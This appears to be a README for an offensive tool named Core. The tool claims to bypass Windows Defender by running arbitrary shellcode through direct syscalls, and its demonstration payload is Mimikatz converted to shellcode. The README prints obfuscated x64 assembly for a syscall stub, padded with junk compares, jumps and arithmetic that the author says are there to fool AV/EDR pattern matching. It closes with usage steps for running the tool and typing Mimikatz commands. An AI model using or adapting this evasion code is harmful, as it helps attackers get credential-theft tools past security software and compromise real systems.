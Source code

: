 # Core
Core bypass Windows Defender and execute any binary converted to shellcode. Core is NOT using any mechanism to prevent
AV/EDR from debug/inspect this code.

Core uses syscall to execute shellcode, any kind of shellcode, in this PoC Mimikatz is converted to shellcode (.exe version)
Core is not calling any API but create memory mapped file and then calls the Nt or Zw functions.

The inner soul of syscalls in 64bit:

```
mov     r10,rcx
mov     eax,0C1h
test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
jne     ntdll!NtCreateThreadEx+0x15 (00007ffa`8c50e635)
syscall
ret
```
or maybe

```
mov r10, rcx
mov eax, 0xC1
syscall
ret

```

but why this syntax ? it too easy for AV/EDR reg.ex pattern matching engine to detect this, why not make more complex or foolish


```

mov BH, 0x5
mov BL, 0x6
cmp BH,BL
mov BH, 0x2
mov BL, 0x4
cmp BH,BL
mov BH, 0x7
mov BL, 0x8
cmp BH,BL
jne go 

labelb:
sub rax, 0x3E8
jmp labelc

nop
labelc:
mov r10,rbx
mov r15, 0x64
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1

mov BH, 0x3
mov BL, 0x2
cmp BH,BL
mov BH, 0x6
mov BL, 0x9
cmp BH,BL
mov BH, 0x9
mov BL, 0x3
cmp BH,BL

syscall
nop
nop
nop
ret

labela:
mov rax, 0x438
nop
jmp labelb

go:
nop
mov rbx, rcx
jmp labela
```

Start cmd.exe with argument coffee like this:

cmd coffee

then run core.exe

don't type your Mimikatz in the mimikatz # prompt, hit ENTER once and type Mimikatz commands
